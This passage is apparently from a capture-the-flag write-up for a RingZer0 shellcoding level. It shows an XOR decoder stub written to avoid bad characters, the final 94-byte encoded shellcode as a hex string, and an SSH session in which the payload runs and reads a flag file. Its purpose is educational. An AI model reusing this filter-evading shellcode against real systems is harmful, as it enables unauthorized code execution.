 ```
xor dword [rax+_shellcode1-_shellcode], 0x10202020
xor dword [rax+_shellcode2-_shellcode], 0x10102010
xor dword [rax+_shellcode3-_shellcode], 0x10211010
xor dword [rax+_shellcode4-_shellcode], 0x21101010
xor dword [rax+_shellcode5-_shellcode], 0x10102110
xor dword [rax+_shellcode6-_shellcode], 0x20101010
xor dword [rax+_shellcode7-_shellcode], 0x10101020

jmp _shellcode0
```

Feeling quite chuffed, I assembled it and checked for bad chars... there was one! A `0x0a` byte snuck in. This was because the addresses of the encoded dwords were, relative to `rax`: 2, 6, 10, 14, etc. I needed to add an offset, which I did:

```
_shellcode:
jmp _decoder
nop
nop
```

This took care of the problem. Yes, this shellcode could have been shorter, probably. A lot of the constants look similar, so I could have probably made the decoder smaller by selecting a 'magic' constant. However, it worked!

```bash
$ echo; nasm -f bin ./completed2.asm; xxd -c 1 ./completed2 | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./completed2

\xeb\x22\x90\x90\x69\x21\xd0\x70\x7f\x74\x7e\x7a\x6f\x7a\x1f\x15\xa0\x12\x69\x97\xe7\x1f\x15\x69\x87\x69\x86\x1f\x15\xa0\x11\x70\x7f\x1f\x15\xd3\x81\x70\x04\x21\x10\x10\x20\x81\x70\x08\x20\x20\x20\x10\x81\x70\x0c\x10\x20\x10\x10\x81\x70\x10\x10\x10\x21\x10\x81\x70\x14\x10\x10\x10\x21\x81\x70\x18\x10\x21\x10\x10\x81\x70\x1c\x10\x10\x10\x20\x81\x70\x20\x20\x10\x10\x10\xeb\xa6
94 ./completed2

$ ssh level5@shellcode.ringzer0team.com -p 7771level5@shellcode.ringzer0team.com's password: 
Linux ld64deb1 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64
Last login: Thu Feb  5 17:23:29 2015 from 137.224.219.201

RingZer0 Team CTF Shellcoding Level 5
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x40 to \x65" max size 100 bytes.
You main goal is to read /flag/level5.flag

shellcode>\xeb\x22\x90\x90\x69\x21\xd0\x70\x7f\x74\x7e\x7a\x6f\x7a\x1f\x15\xa0\x12\x69\x97\xe7\x1f\x15\x69\x87\x69\x86\x1f\x15\xa0\x11\x70\x7f\x1f\x15\xd3\x81\x70\x04\x21\x10\x10\x20\x81\x70\x08\x20\x20\x20\x10\x81\x70\x0c\x10\x20\x10\x10\x81\x70\x10\x10\x10\x21\x10\x81\x70\x14\x10\x10\x10\x21\x81\x70\x18\x10\x21\x10\x10\x81\x70\x1c\x10\x10\x10\x20\x81\x70\x20\x20\x10\x10\x10\xeb\xa6
    Shellcode received...
    Shellcode length (94) bytes.

    Success: Executing shellcode...

/flag/level5.flag^@
FLAG-<redacted>
    Error: SIGSEGV received I think your shellcode is not working.
```
